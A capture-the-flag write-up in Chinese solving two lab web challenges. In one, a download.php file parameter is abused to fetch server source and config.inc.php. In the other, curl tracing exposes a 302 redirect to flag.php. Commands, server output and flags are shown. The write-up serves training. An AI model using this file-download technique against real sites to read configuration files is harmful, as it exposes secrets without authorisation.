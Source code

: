 ### Downloader
> http://140.110.112.78:2505

* 看一下原始碼，可以看到其中一個 link `http://140.110.112.78:2505/download.php?f=cute1.jpg`
* 嘗試下載 `index.php`
    ```php=
    <?php
    include("config.inc.php");
    ?>
    <html>
    <head>
    <meta charset="UTF-8">
    <title>Downloader</title>
    </head>
    <body>
    <h1>File Download</h1>
    <ul>
    <li><a href="download.php?f=cute1.jpg">貓貓1</a></li>
    <li><a href="download.php?f=cute2.jpg">貓貓2</a></li>
    <li><a href="download.php?f=cute3.png">貓貓3</a></li>
    </ul>
    </body>
    </html>
    ```
* 這時候可以看到 `config.inc.php`，嘗試下載他，就可以看到 flag 了
* flag : `FLAG{download_my_config}`

### lightning
> http://140.110.112.78:2507

* 嘗試用 postman 發 get 請求 `http://140.110.112.78:2507/index.php`，發現沒什麼用，推測被永久的 redirect 了
* 直接送 curl `curl http://140.110.112.78:2507/index.php` 發現拿不到資料
* 選擇追蹤過程 `curl --trace-ascii trace.txt http://140.110.112.78:2507/index.php`
    ```bash=
    == Info:   Trying 140.110.112.78...
    == Info: TCP_NODELAY set
    == Info: Connected to 140.110.112.78 (140.110.112.78) port 2507 (#0)
    => Send header, 92 bytes (0x5c)
    0000: GET /index.php HTTP/1.1
    0019: Host: 140.110.112.78:2507
    0034: User-Agent: curl/7.64.1
    004d: Accept: */*
    005a:
    <= Recv header, 20 bytes (0x14)
    0000: HTTP/1.1 302 Found
    <= Recv header, 37 bytes (0x25)
    0000: Date: Mon, 26 Oct 2020 03:37:53 GMT
    <= Recv header, 32 bytes (0x20)
    0000: Server: Apache/2.4.18 (Ubuntu)
    <= Recv header, 20 bytes (0x14)
    0000: Location: flag.php
    <= Recv header, 19 bytes (0x13)
    0000: Content-Length: 0
    <= Recv header, 40 bytes (0x28)
    0000: Content-Type: text/html; charset=UTF-8
    <= Recv header, 2 bytes (0x2)
    0000:
    == Info: Connection #0 to host 140.110.112.78 left intact
    ```
* 可以看到有一個有趣的 location `flag.php`
* 直接用 curl `curl http://140.110.112.78:2507/flag.php` 可以看到 flag
* flag : `FLAG{302_redirect_cool}`
